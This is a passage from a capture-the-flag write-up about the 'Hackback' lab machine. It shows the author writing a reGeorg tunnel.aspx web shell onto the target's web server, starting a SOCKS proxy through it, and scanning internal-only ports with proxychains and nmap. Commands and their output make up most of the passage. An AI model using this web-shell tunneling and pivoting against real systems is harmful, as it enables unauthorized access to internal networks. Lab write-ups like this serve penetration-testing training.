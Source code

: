 ```
# ./hackback_write.py "/inetpub/wwwroot/new_phish/admin/2bb6916122f1da34dcd916421e531578/tunnel.aspx" tunnel.aspx
200
200
[04 July 2019, 09:55:44 PM] 10.10.14.11 - Username: test@test.com, Password: 4960 *****
```

Then I started the local component of reGeorg:

```
# python reGeorgSocksProxy.py -l 127.0.0.1 -p 1080 -u http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/tunnel.aspx

    
                     _____
  _____   ______  __|___  |__  ______  _____  _____   ______
 |     | |   ___||   ___|    ||   ___|/     \|     | |   ___|
 |     \ |   ___||   |  |    ||   ___||     ||     \ |   |  |
 |__|\__\|______||______|  __||______|\_____/|__|\__\|______|
                    |_____|
                    ... every office needs a tool like Georg

  willem@sensepost.com / @_w_m__
  sam@sensepost.com / @trowalts
  etienne@sensepost.com / @kamp_staaldraad
  
   
[INFO   ]  Log Level set to [INFO]
[INFO   ]  Starting socks server [127.0.0.1:1080], tunnel at [http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/tunnel.aspx]
[INFO   ]  Checking if Georg is ready
[INFO   ]  Georg says, 'All seems fine'
```

So now I have a SOCKS proxy listening on port 1080 and tunneling the traffic to the Hackback machine. There are probably some ports listening only on the localhost so I can find out by running nmap through the tunnel. I specify the `-sT` flag so nmap does a regular TCP socket with the Connect() method and not the default `-sS` SYN method which doesn't work with proxychains.

```
# proxychains nmap -sT -p 22,80,135,139,443,445,3389,5985,5986,8080 127.0.0.1
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 20:46 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.34s latency).

PORT     STATE  SERVICE
22/tcp   closed ssh
80/tcp   open   http
135/tcp  open   msrpc
139/tcp  closed netbios-ssn
443/tcp  closed https
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server
5985/tcp open   wsman
5986/tcp closed wsmans
8080/tcp open   http-proxy
```
